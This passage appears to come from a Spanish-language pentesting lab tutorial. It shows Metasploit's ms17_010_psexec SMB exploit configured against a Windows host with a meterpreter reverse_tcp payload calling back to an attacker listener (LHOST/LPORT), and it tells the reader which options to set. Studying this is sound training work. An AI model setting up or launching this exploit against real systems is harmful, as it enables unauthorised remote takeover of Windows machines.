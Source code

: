 ```r
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Asegúrate de configurar correctamente las opciones de tu payload antes de ejecutar el exploit. Cualquier opción que tenga `Required` configurado en sí será un espacio necesario para completar. En este caso, necesitamos asegurarnos de que nuestros campos `RHOSTS, LHOST y LPORT` estén configurados correctamente. Para este intento, aceptar los valores predeterminados para el resto está bien.

### Validate Our Options

```r
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):
```